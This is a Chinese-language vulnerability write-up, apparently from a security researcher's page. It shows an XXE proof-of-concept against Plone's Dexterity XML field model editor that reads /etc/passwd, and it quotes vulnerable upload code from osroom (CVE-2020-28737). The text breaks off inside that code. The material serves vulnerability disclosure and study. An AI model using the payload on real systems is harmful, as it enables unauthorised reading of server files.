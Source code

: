 ```
            # can supermodel parse it?
            # This is mainly good for catching bad dotted names.
            try:
                plone.supermodel.loadString(source, policy=u'dexterity')
            except SupermodelParseError as e:
                message = e.args[0].replace('\n  File "<unknown>"', '')
                return json.dumps({
                    'success': False,
                    'message': u'SuperModelParseError: {0}'.format(message)
                })

```

上面的代码使用lxml库，但是直接解析xml中的外部参数。 结果，在功能 `Dexterity Content Types`下选择` custom content types`，然后单击进入。 `fields`标签下的`Edit XML Field Model`可以直接编写xml代码。

参数 POC：

```
<!DOCTYPE value [<!ELEMENT value ANY ><!ENTITY title SYSTEM "file:///etc/passwd" > ]>
<model xmlns:i18n="http://xml.zope.org/namespaces/i18n" xmlns:marshal="http://namespaces.plone.org/supermodel/marshal" xmlns:form="http://namespaces.plone.org/supermodel/form" xmlns:security="http://namespaces.plone.org/supermodel/security" xmlns:users="http://namespaces.plone.org/supermodel/users" xmlns:lingua="http://namespaces.plone.org/supermodel/lingua" xmlns="http://namespaces.plone.org/supermodel/schema">
 &title;<schema/>
</model>
```

因为程序代码中似乎存在问题，所以无法添加XML声明文件，但是打开的默认声明文件具有添加的声明文件。 需要删除。 保存参数，并在返回后单击此处查看它们。

![image-20201110100900815](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/image-20201110100900815.png)

### CVE-2020-28737

osroom--路径覆盖

`apps\modules\plug_in_manager\process\manager.py`

```
def upload_plugin():
    """
    插件上传
    :return:
    """

    file = request.files["upfile"]
    file_name = os.path.splitext(file.filename)         #('123','.zip')
    filename = os.path.splitext(file.filename)[0]         #123
    extension = file_name[1]                           #.zip
    if not extension.strip(".").lower() in ["zip"]:
        data = {"msg": gettext("File format error, please upload zip archive"),
                "msg_type": "w", "custom_status": 401}
        return data

    if not os.path.exists(PLUG_IN_FOLDER):            #osroom/apps/plugins
        os.makedirs(PLUG_IN_FOLDER)

    fpath = os.path.join(PLUG_IN_FOLDER, filename)   ##osroom/apps/plugins/123
    if os.path.isdir(fpath) or os.path.exists(fpath):
        if mdbs["sys"].db.plugin.find_one(
                {"plugin_name": filename, "is_deleted": {"$in": [0, False]}}):
            # 如果插件没有准备删除标志
            data = {"msg": gettext("The same name plugin already exists"),
                    "msg_type": "w", "custom_status": 403}
            return data
```